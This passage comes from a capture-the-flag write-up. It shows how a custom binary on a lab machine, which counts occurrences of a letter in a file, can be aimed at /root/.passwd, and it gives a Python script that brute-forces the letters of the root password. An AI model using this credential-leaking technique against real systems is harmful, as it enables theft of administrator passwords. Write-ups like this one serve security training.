 ![CyberChef Decryption](./writeup-images/35.png)

- the binary `stormbreaker` can be used to read the number of times a given letter occurs in a file

- run the binary to read pieces of the `admin password` file - `/root/.passwd`

```
user@nidavellir:/$ /opt/binaries/stormbreaker /root/.passwd a
/opt/binaries/stormbreaker /root/.passwd a
0
```

- use a script to learn all the characters of the password

```
# tmp.py

import subprocess

binary_path = '/opt/binaries/stormbreaker' # change this
file_path = '/root/.passwd' # change this
letters = list('abcdefghijklmnopqrstuvwxyz')

password_letters = []

# find out all letters in the password using the binary
for letter in letters:
    output = subprocess.run([binary_path, file_path, letter], stdout=subprocess.PIPE)
    print("{}: {}".format(letter, output.stdout.decode('utf-8').strip()))

    if output.stdout.decode('utf-8').strip() == '1':
        password_letters.append(letter)


print(''.join(password_letters))
```
